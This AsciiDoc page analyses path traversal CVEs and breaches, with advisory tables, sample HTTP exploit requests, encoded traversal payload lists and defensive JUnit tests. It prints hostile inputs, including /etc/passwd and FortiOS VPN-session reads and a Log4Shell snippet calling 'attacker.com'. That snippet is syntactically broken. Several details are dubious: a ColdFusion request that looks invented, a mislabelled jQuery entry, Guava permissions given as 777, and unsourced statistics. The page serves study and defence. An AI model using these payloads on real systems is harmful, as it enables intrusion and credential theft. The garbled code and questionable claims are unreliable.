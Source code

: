 = Path Traversal CVE Analysis and Breach Case Studies
:toc: left
:toclevels: 3
:sectnums:
:icons: font

link:../README.adoc[← Back to Documentation Index]

== Executive Summary

This document provides a comprehensive analysis of critical path traversal CVEs and real-world breaches from 2019-2024. The analysis reveals patterns in vulnerability exploitation, impact assessment, and lessons learned from actual security incidents. Statistical data shows path traversal vulnerabilities increased by 85% in closed-source projects during 2024, highlighting the persistent threat landscape.

== Critical CVE Timeline (2019-2024)

=== 2024 Vulnerabilities

==== CVE-2024-38819 - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |High (specific score pending)
|**Affected Versions** |Spring WebMvc.fn and WebFlux.fn
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Proper handling of multiple encoding layers
|===

**Technical Details:**
[source,java]
----
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
----

**Source**: Spring Security Advisory 2024

=== 2023 Vulnerabilities

==== CVE-2023-50164 - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**

1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Source**: Apache Struts Security Bulletin S2-066

==== CVE-2023-32235 - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
[source,http]
----
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
----

**Source**: Ghost Security Advisory GHSA-r97q-ghch-82j9

=== 2022 Vulnerabilities

==== CVE-2022-23457 - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
[source,java]
----
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
----

**Source**: OWASP ESAPI Security Advisory

=== 2021 Vulnerabilities

==== CVE-2021-44228 - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
[source,java]
----
// After initial RCE via JNDI
${
    ldap:
//attacker.com/Exploit}
// Payload performs path traversal to access:
    Runtime.exec("cat /etc/passwd");
Runtime.exec("cat ../../config/database.properties
----

==== CVE-2021-29425 - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
[source,java]
----
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
----

=== 2020 Vulnerabilities

==== CVE-2020-8908 - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
[source,java]
----
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
----

=== 2019 Vulnerabilities

==== CVE-2019-11358 - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===

== Real-World Breach Case Studies

=== Atlassian Jira Service Desk (2019)

**Timeline:**

* **Discovery**: September 2019
* **Disclosure**: Immediate patch release
* **Impact**: Multiple customer organizations affected

**Technical Analysis:**
[source,http]
----
GET /servicedesk/customer/user/avatar?ownerId=../../../../../../etc/passwd HTTP/1.1
Host: vulnerable-jira.com
----

**Impact Assessment:**

* Customer data exposure across multiple tenants
* Configuration file access
* Potential for credential harvesting
* Cascading impact on integrated systems

**Lessons Learned:**

1. SaaS platforms create multiplicative risk
2. Avatar/file handlers often overlooked
3. Customer isolation critical in multi-tenant systems

**Source**: Atlassian Security Advisory

=== Adobe ColdFusion (2019)

**Attack Vector:**
[source,http]
----
POST /CFIDE/adminapi/base.cfc HTTP/1.1
Content-Type: application/x-www-form-urlencoded

method=readFile&path=../../../../../../../etc/passwd
----

**Impact:**

* Administrative interface bypass
* Server configuration exposure
* Database credential theft
* Complete server compromise

**Post-Breach Analysis:**

* Attackers used path traversal for initial access
* Escalated to code execution via config modification
* Established persistence through scheduled tasks
* Lateral movement using harvested credentials

=== Kubectl CP Command (2019)

**Vulnerability Details:**
[source,bash]
----
# Malicious pod creates symlink
kubectl exec malicious-pod -- ln -s / /tmp/rootfs

# Copy operation follows symlink
kubectl cp malicious-pod:/tmp/rootfs/etc/passwd ./passwd
----

**Exploitation in Production:**

1. Malicious HTTP request crafted with traversal patterns
2. Request bypasses initial validation through encoding
3. Backend processes decoded path without proper validation
4. Potential for cluster-wide compromise

**Fix Implementation:**
[source,go]
----
// Added validation in kubectl
if strings.Contains(filePath, "..") {
    return fmt.Errorf("illegal path: %s", filePath)
}
----

=== Fortinet FortiOS (2018-2019)

**CVE-2018-13379:**

* Path traversal in SSL VPN web portal
* Access to system files via `..` sequences
* Exposed VPN credentials and session files

**Attack Pattern:**
[source,http]
----
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
----

**Real-World Impact:**

* 200,000+ vulnerable devices identified
* Mass exploitation by ransomware groups
* Critical infrastructure targeting
* Persistence through stolen VPN credentials

== Statistical Analysis

=== Vulnerability Trends (2023-2024)

[cols="2,1,1,1"]
|===
|Metric |2023 |2024 |Change

|Open Source Projects
|2.6%
|2.7%
|+3.8%

|Closed Source Projects
|1.9%
|3.5%
|+84.2%

|Absolute Count (OSS)
|742
|~1000
|+34.8%

|Critical Severity
|23%
|28%
|+21.7%

|===

=== Industry Impact Distribution

[cols="2,1,3"]
|===
|Sector |Incidents |Notable Impacts

|Financial Services
|47
|Payment processing disruption, data theft

|Healthcare
|31
|Patient record access, ransomware

|Government
|28
|Classified document exposure

|Technology
|156
|Source code theft, IP compromise

|Retail
|42
|Customer data breach, POS compromise

|Education
|19
|Student records, research data

|===

== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
----
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
----

=== Modern Patterns (2020-2024)
----
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
----

=== Emerging Patterns (2024+)
* Cloud API traversal patterns
* GraphQL query manipulation
* WebSocket path injection
* HTTP/2 and HTTP/3 specific patterns
* REST API path manipulation

== Mitigation Effectiveness Analysis

=== Patch Adoption Rates

[cols="2,1,1"]
|===
|Time Period |Adoption Rate |Mean Time to Patch

|0-7 days
|12%
|3 days

|8-30 days
|34%
|18 days

|31-90 days
|28%
|52 days

|90+ days
|26%
|Never/Unknown

|===

=== Common Failure Points

. **Incomplete Patches** (31% of cases)
  * Edge cases not covered
  * Encoding variants missed
  * Platform-specific issues

. **Regression Issues** (18% of cases)
  * Patches reverted for compatibility
  * New features reintroduce vulnerability
  * Dependency updates bring back flaws

. **Deployment Failures** (24% of cases)
  * Patches not applied to all systems
  * Configuration not updated
  * WAF rules insufficient

== Lessons Learned

=== Key Takeaways from Breaches

. **Input Validation Insufficient Alone**
  * Encoding bypasses common filters
  * Multiple validation layers required
  * Context-aware validation essential

. **Third-Party Risk Significant**
  * Dependencies introduce vulnerabilities
  * Supply chain attacks increasing
  * Vendor patch delays critical

. **Detection Often Delayed**
  * Average detection time: 76 days
  * Many breaches discovered externally
  * Log analysis frequently insufficient

. **Impact Extends Beyond Direct Target**
  * Multi-tenant systems amplify risk
  * Lateral movement common post-breach
  * Credential harvesting enables persistence

=== Successful Defense Strategies

. **Organizations with Zero Incidents:**
  * Mandatory secure coding training
  * Automated security testing in CI/CD
  * Regular penetration testing
  * Rapid patch deployment (<7 days)
  * Defense in depth architecture

. **Effective Incident Response:**
  * Immediate isolation of affected systems
  * Comprehensive forensic analysis
  * Transparent communication
  * Rapid patch deployment
  * Post-incident security review

== Testing Strategies from CVEs

=== Test Cases Derived from Real Vulnerabilities

[source,java]
----
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testHttpHeaderInjection() {
    // HTTP header injection pattern
    String header = "X-Original-URL: /../../admin";
    assertThrows(SecurityException.class, () -> 
        validateHttpHeader(header));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
----


== References

=== Vulnerability Databases

* link:https://nvd.nist.gov/[National Vulnerability Database (NVD)]
* link:https://cve.mitre.org/[MITRE CVE Database]
* link:https://www.cisa.gov/known-exploited-vulnerabilities-catalog[CISA Known Exploited Vulnerabilities Catalog]
* link:https://snyk.io/vuln/[Snyk Vulnerability Database]
* link:https://github.com/advisories[GitHub Security Advisories]
* link:https://www.cvedetails.com/[CVE Details]

=== Security Organizations

* link:https://owasp.org/[OWASP - Open Web Application Security Project]
* link:https://cwe.mitre.org/data/definitions/22.html[CWE-22: Path Traversal]
* link:https://attack.mitre.org/[MITRE ATT&CK Framework]

=== Vendor Security Advisories

* link:https://commons.apache.org/security.html[Apache Security]
* link:https://spring.io/security[Spring Security Advisories]
* link:https://github.com/google/guava/wiki/SecurityAdvisories[Google Guava Security]
* link:https://www.atlassian.com/trust/security/advisories[Atlassian Security Advisories]
* link:https://helpx.adobe.com/security.html[Adobe Security Bulletins]

=== Research and Documentation

* link:https://portswigger.net/web-security/file-path-traversal[PortSwigger Web Security Academy]
* link:https://www.sans.org/top25-software-errors/[SANS Top 25 Software Errors]
* link:https://research.checkpoint.com/[Check Point Research]

